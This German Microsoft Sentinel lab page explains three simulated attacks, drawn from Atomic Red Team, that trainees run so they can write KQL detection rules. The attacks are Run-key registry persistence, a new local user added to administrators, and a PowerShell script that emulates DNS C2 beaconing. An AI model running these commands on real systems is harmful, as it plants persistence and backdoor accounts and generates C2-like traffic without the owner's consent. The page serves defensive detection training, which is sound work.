

---
lab:
  title: Übung 5 – Verstehen der Erkennungsmodellierung
  module: Learning Path 9 - Create detections and perform investigations using Microsoft Sentinel
---

# Lernpfad 9 – Lab 1 – Übung 5: Verstehen der Erkennungsmodellierung

## Labszenario



### Geschätzte Zeit bis zum Abschluss dieses Labs: 30 Minuten

### Aufgabe 1: Verstehen der Angriffe

>**Wichtig: In dieser Übung werden keine Aktionen ausgeführt.**  Diese Anweisungen sind nur eine Erklärung der Angriffe, die Sie in der nächsten Übung durchführen werden. Bitte lesen Sie diese Seite aufmerksam durch.

Angriffsmuster basieren auf einem Open-Source-Projekt: <https://github.com/redcanaryco/atomic-red-team>

#### Angriff 1 – Persistenz mit dem Registrierungsschlüssel hinzufügen

Angreifer fügen ein Programm im Registrierungsschlüssel ausführen hinzu. Dadurch wird Persistenz erreicht, indem das Programm bei jeder Anmeldung des Benutzers ausgeführt wird.

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### Angriff 2 – Benutzerberechtigungen hinzufügen und erhöhen

Der Angreifer fügt neue Benutzer hinzu und erhebt den neuen Benutzer in die Gruppe der Administratoren. Dadurch kann sich der Angreifer mit einem anderen privilegierten Konto anmelden.

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### Angriff 3 – DNS/C2

Angreifer sendet eine große Anzahl von DNS-Abfragen an einen Befehls- und Steuerelementserver (C2). Die Absicht ist, eine schwellwertbasierte Erkennung der Anzahl von DNS-Anfragen entweder von einem einzelnen Quellsystem oder zu einer einzelnen Zieldomäne auszulösen.

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```

### Aufgabe 2: Verstehen der Erkennungsmodellierung

Der in dieser Übung verwendete Angriffserkennungs-Konfigurationszyklus repräsentiert alle Datenquellen, auch wenn Sie sich nur auf zwei bestimmte Datenquellen konzentrieren.

Um eine Erkennung zu erstellen, beginnen Sie mit der Erstellung einer KQL-Anweisung. Da Sie einen Host angreifen, verfügen Sie über repräsentative Daten, um mit der Erstellung der KQL-Anweisung zu beginnen.

Nachdem Sie die KQL-Anweisung erstellt haben, erstellen Sie die Analyseregel.

Sobald die Regel ausgelöst wird und Warnungen und Incidents generiert, prüfen Sie, ob Sie Felder zur Verfügung stellen, die den Security Operations Analysts bei ihren Untersuchungen helfen.

Nehmen Sie anschließend weitere Änderungen an der Analyseregel vor.

>**Hinweis:** Einige Warnungen werden nur zu Labzwecken in einem kürzeren Zeitintervall ausgelöst.

## Fahren Sie mit Übung 6 fort
